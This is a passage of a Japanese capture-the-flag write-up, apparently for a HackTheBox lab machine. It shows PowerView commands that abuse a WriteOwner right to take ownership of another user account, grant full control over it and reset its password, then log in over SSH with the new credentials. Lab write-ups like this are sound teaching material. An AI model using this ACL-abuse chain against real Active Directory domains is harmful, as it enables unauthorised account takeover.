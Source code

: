 ## tom -> claire

tomは**WriteOwner**の権限をclaireに対して持ってる。

![スクリーンショット 2022-01-15 11 50 15](https://user-images.githubusercontent.com/85237728/149606210-4c9591c9-8ec9-4e90-9984-95899be437ad.png)

claireのオーナーをtomに設定：

```
PS C:\Users\tom> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
```

tomに、claireのことをGenericAllできるように権限を与える：

```
PS C:\Users\tom> Add-DomainObjectAcl -PrincipalIdentity tom -TargetIdentity claire -Rights All
```

これでtomはclaireのパスワードを再設定できる：

```
PS C:\Users\tom> $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\Users\tom> Set-DomainUserPassword -Identity claire -AccountPassword $UserPassword
```

このclaireのクリデンシャルでclaireにssh接続：

```
┌──(kali㉿kali)-[~]
└─$ sshpass -p 'Password123!' ssh cliare@10.10.10.77
```

（sshpassコマンドは`sudo apt install sshpass`でダウンロード可能）



ちなみにclaire->SYSTEMは...

root.txtに目が行きすぎて気づかなかったけど、C:\Uses\Administrator\Backup Scripts っていうディレクトリがあることに昼飯食ってから気づいた。（これ一種のミスディレクションだよ。root.txtの
真上にあったのにroot.txtに目が行きすぎて気づかなかった...。）
